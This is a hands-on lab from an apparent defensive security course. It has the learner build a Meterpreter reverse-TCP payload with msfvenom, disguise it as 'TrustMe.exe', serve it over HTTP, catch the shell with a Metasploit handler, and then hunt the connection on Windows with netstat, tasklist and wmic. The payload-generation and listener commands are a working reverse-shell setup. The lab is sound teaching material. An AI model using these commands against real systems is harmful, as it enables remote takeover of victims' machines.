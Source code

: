 

# Windows CLI

MITRE Shield
------------

Applicable MITRE Shield techniques:
* [DTE0034](https://shield.mitre.org/techniques/DTE0034) - System Activity Monitoring
* [DTE0021](https://shield.mitre.org/techniques/DTE0021) - Hunting

Instructions
------------

In this lab we will create some malware, run it and then use the tools we went through in the slides to look at what an attack looks like on a live system.

One of the best ways to learn, well...  Anything, is to actually just dig in and do it.  So, this is a great process for getting started in looking at actual malware.

Let's get started.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.

Please note that my adapter is called eth0 and my IP address is 172.26.19.133.

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener:

$ `sudo su -`
Please note, the adhd password is adhd.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444
-f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`

/#`python -m SimpleHTTPServer 8000 &`

It should look like this:

![](attachments/Clipboard_2020-07-09-15-52-24.png)

Now, let's start the Metasploit Handler.  You will have to hit Enter to get your prompt back.


root@DESKTOP-I1T2G01:/tmp/# `msfconsole -q`
msf5 > `use exploit/multi/handler`
msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`
Remember, your IP will be different!
msf5 exploit(multi/handler) > `exploit`

It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)

Now, let’s surf to your Linux system, download the malware and run it!

Simply open an Edge browser to `http://<YOUR LINUX IP>:8000`

![](attachments/Clipboard_2020-07-09-15-54-29.png)

Remember! Your IP will be different!!

Now, let's download and run the TrustMe.exe file!

![](attachments/Clipboard_2020-07-09-15-55-05.png)
You should simply click and run the program from the browser.

If you get an alert, just select run the application.

Back at your Ubuntu prompt, you should have a metasploit session.

![](attachments/Clipboard_2020-06-12-12-55-11.png)

Now, let's look at the malware from the other side through the Windows commandline slides!

Please, remember, your IP address will be different!!!

Now, let's open another Command Prompt from our Terminal:

![](attachments/Clipboard_2020-12-09-13-24-45.png)

Once we are in, lets start with looking at the network connections:

We will start with C:\>`net view`

In this example, our malware will not have any sessions at all:

![](attachments/Clipboard_2020-12-09-13-27-00.png)

We will get the same lack of connections from C:\>`net session`

![](attachments/Clipboard_2020-12-09-13-27-35.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session).

However, we are not done with network connections yet.  Lets try

C:\>`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-41-32.png)

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

![](attachments/Clipboard_2020-12-09-13-41-54.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

C:\>`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore.

![](attachments/Clipboard_2020-12-09-13-48-21.png)

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) so we can dig deeper:

C:\>`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-49-49.png)

![](attachments/Clipboard_2020-12-09-13-50-01.png)

We can see in the above screenshot that we have the PID.

Now, let's dive in!

First we will start with tasklist

C:\>`tasklist /m /fi "pid eq [PID]"`

Your PID WILL BE DIFFERENT!

![](attachments/Clipboard_2020-12-09-13-55-22.png)

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Let's keep digging with wmic:

C:\>`wmic process where processid=[PID] get commandline`

![](attachments/Clipboard_2020-12-09-13-58-16.png)

Ahh!!  Now we can see that the file was launched from the Edge temp downloads directory!  So, now we know it was downloaded from the Internet.


Let's see if we can see what spawned the process with wmic.

C:\> `wmic process get name,parentprocessid,processid`

![](attachments/Clipboard_2020-12-09-14-01-04.png)

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launched by the browser_broker.exe process.  This once again, shows us that this process was launched from the browser.













